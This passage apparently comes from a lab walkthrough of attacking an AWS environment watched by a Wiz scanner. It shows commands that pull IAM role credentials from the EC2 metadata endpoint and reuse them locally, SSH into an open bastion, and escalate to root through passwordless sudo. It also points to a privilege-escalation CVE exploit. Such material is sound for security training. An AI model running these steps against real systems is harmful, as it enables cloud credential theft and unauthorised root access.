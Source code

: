 We could have used [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) to escalate privileges. Continuing the discovery, an AWS role is attached to that machine and is available via the metadata endpoint

```bash
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/JenkinsServiceRole-ee31f43
{
  "Code" : "Success",
  "LastUpdated" : "2024-11-18T06:35:27Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA[...]WV",
  "SecretAccessKey" : "VHv[...]kmV",
  "Token" : "IQoJ[...]w33dfg==",
  "Expiration" : "2024-11-18T12:39:41Z"
}

####### Locally

export AWS_REGION=us-east-1
export AWS_ACCESS_KEY_ID=ASIA[...]WV
export AWS_SECRET_ACCESS_KEY=VHv[...]kmV
export AWS_SESSION_TOKEN=IQoJ[...]w33dfg==

$ aws sts get-caller-identity
{
    "UserId": "AROA[...]J:i-abcdef",
    "Account": "12345678910",
    "Arn": "arn:aws:sts::12345678910:assumed-role/JenkinsServiceRole-ee31f43/i-abcdef"
}
```

Let's keep this for later and explore a bit more. As a side note, this attempt is immediately detected by Wiz and shown as a Critical finding: using an IAM role outside of an EC2.

## Second way in

There's another way in. Wiz interface shows a machine exposing SSH with no credentials. We learn later on that this instance is a bastion server to access other machines.

```bash
$ ssh secureadmin@203.0.113.1
```

Trying to escalate privileges, this user does not have a password.

```bash
secureadmin@ip-10-80-36-98:~$ sudo -l
Matching Defaults entries for secureadmin on ip-10-80-36-98:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User secureadmin may run the following commands on ip-10-80-36-98:
    (ALL) NOPASSWD: ALL
secureadmin@ip-10-80-36-98:~$ sudo su
root@ip-10-80-36-98:/home/secureadmin#
```
